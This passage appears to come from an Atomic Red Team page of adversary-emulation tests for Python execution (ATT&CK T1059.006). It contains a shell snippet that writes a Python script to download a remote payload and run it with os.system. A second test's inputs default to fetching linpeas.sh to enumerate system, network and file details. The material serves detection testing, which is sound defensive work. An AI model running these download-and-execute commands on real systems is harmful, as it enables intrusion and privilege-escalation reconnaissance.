 ```sh
which_python=$(which python || which python3 || which python3.9 || which python2)
echo 'import requests' > #{python_script_name}
echo 'import os' >> #{python_script_name}
echo 'url = "#{script_url}"' >> #{python_script_name}
echo 'malicious_command = "#{executor} #{payload_file_name} #{script_args}"' >> #{python_script_name}
echo 'session = requests.session()' >> #{python_script_name}
echo 'source = session.get(url).content' >> #{python_script_name}
echo 'fd = open("#{payload_file_name}", "wb+")' >> #{python_script_name}
echo 'fd.write(source)' >> #{python_script_name}
echo 'fd.close()' >> #{python_script_name}
echo 'os.system(malicious_command)' >> #{python_script_name}
$which_python #{python_script_name}
```

#### Cleanup Commands:

```sh
rm #{python_script_name} #{payload_file_name}
```

#### Dependencies: Run with `sh`!

##### Description: Requires Python

##### Check Prereq Commands:

```sh
which_python=$(which python || which python3 || which python3.9 || which python2); $which_python -V
$which_python -c 'import requests' 2>/dev/null; echo $?
```

##### Get Prereq Commands:

```sh
pip install requests
```

<br/>
<br/>

## Atomic Test #3 - Execute Python via Python executables

Create Python file (.py) then compile to binary (.pyc) that downloads an external malicious script then executes locally using the supplied executor and arguments

**Supported Platforms:** Linux

**auto_generated_guid:** 0b44d79b-570a-4b27-a31f-3bf2156e5eaa

#### Inputs:

| Name               | Description                                                                                                                      | Type   | Default Value                                                                 |
| ------------------ | -------------------------------------------------------------------------------------------------------------------------------- | ------ | ----------------------------------------------------------------------------- |
| python_script_name | Name of Python script name                                                                                                       | path   | T1059.006.py                                                                  |
| script_url         | URL hosting external malicious payload                                                                                           | string | https://github.com/carlospolop/PEASS-ng/releases/download/20220214/linpeas.sh |
| payload_file_name  | Shell script file name downloaded from the script_url                                                                            | string | T1059.006-payload                                                             |
| executor           | Payload or script interpreter / executor                                                                                         | string | sh                                                                            |
| script_args        | Arguments to check for system stats, available software, process details, environment paths, open sockets, and interesting files | string | -q -o SysI, Devs, AvaSof, ProCronSrvcsTmrsSocks, Net, UsrI, SofI, IntFiles    |
| python_binary_name | Name of Python file to be compiled                                                                                               | path   | T1059.006.pyc                                                                 |
